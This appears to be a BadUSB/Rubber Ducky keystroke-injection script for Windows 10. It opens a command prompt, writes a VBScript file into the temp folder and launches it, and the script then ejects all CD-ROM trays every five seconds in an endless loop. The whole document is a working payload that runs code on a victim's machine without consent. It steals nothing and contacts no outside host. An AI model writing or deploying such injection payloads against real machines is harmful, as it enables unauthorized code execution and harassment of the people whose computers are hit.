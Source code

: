 REM for Windows 10
GUI r
DELAY 300
STRING cmd
ENTER
DELAY 800
STRING del %tmp%\dvloptical.vbs
ENTER
DELAY 200
STRING cd %tmp% && copy con dvloptical.vbs
ENTER
STRING Set oWMP = CreateObject("WMPlayer.OCX.7")
ENTER
STRING Set colCDROMs = oWMP.cdromCollection
ENTER
STRING do
ENTER
STRING if colCDROMs.Count >= 1 then
ENTER
STRING For i = 0 to colCDROMs.Count -1
ENTER
STRING colCDROMs.Item(i).Eject
ENTER
STRING Next
ENTER
STRING For i = 0 to colCDROMs.Count -1
ENTER
STRING colCDROMs.Item(i).Eject
ENTER
STRING Next
ENTER
STRING End If
ENTER
STRING wscript.sleep 5000
ENTER
STRING loop
ENTER
DELAY 100
CTRL z
ENTER
STRING start dvloptical.vbs
ENTER
STRING exit
ENTER